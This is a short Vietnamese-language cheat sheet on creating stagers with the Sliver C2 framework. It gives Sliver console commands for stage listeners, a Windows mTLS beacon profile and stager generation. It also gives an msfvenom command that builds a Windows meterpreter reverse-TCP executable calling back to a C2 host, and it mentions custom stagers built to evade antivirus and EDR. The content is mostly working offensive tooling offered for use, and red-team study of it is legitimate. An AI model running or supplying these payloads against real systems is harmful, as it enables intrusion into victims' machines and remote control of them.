 # Sliver - Stager

## Stager là gì

- **Stager** là payload nhỏ gọn, dùng để tải và thực thi payload chính (stage payload) từ server C2
- **Giảm kích thước payload ban đầu**, tăng khả năng deliver đến người dùng
- **Linh hoạt tải qua nhiều giao thức khác nhau:** HTTP, HTTPS, DNS, SMB, TCP...

## Triển khai stager

### Tạo Profile


```bash
sliver > stage-listener --url http://<IP>:<PORT> --profile <profile-name>
```

#### Profile mTLS cho implant beacon 64-bit Windows

```bash
sliver > profiles new beacon --mtls <c2_server> --format shellcode --arch amd64 --os windows win64
```

### Tạo stager listener

```bash
sliver > stage-listener --url tcp://<c2_host>:<c2_port> --profile <profile_name>
```

### Tạo stager

Sliver cho phép ta tạo stager từ nhiều nguồn khác nhau

### Sliver Framework

```bash
sliver > generate stager --lhost <c2_host> --lport <c2_port>
```

### Metasploit

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/meterpreter/reverse_tcp LHOST=<c2_host> LPORT=<c2_port> EXITFUNC=thread --format exe -o stager.exe
```

### Custom Stager

Và để tối ưu nhất cho từng môi trường cụ thể Sliver cũng cho phép viết custom stager để tối ưu AV/EDR evasion


## References

- **[Custom Powershell Stager](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8):** Blog produce một custom powershell stager